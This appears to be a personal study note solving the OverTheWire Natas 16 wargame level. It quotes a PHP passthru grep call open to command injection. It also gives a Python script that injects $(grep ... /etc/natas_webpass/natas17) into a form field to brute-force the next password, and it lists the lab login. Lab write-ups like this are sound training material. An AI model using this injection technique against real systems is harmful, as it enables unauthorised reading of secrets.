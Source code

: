 
2024-07-19 21:01

Source:  #natas 

Tags: [[regex]]
## Natas 16

 ```
passthru("grep -i \"$key\" dictionary.txt");  # snippet form website source code
```
- the key argument is passed in double quotes so it is isolated as its own argument we can't get around that
- we can't directly use `$(whoami)` to run commands because the command's output is used as a input for the grep command which is searching in the dictionary 

if we only send in `B` as input because `B` does exist in the password that command in the PHP code is filled in with the actual password an argument and it obviously can't find that in dictionary text so we don't see any output here

```python
import requests
import re
import string

characters = string.ascii_letters+"0123456789"

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = 'http://natas16.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while(len(seen) < 32):
    for ch in characters:
        print("".join(seen)+ch)
        
        response = sessions.post(url,data = {"needle": "anythings$(grep ^" + "".join(seen) + ch + "  /etc/natas_webpass/natas17)"},auth = (username,password))
 
# grep ^ - ret true if the current character is a part of the password string at the cuurent position

        content = response.text
        returned = re.findall('<pre>\n(.*)\n</pre>',content)

        if not returned:
            seen.append(ch)
            break
            
# returned will be empty when we find the character because the server will try to grep the password string from the dictionary, which does not exist that is why we append the character in seen  
```
### References

https://www.youtube.com/watch?v=6XlDsn-R5oQ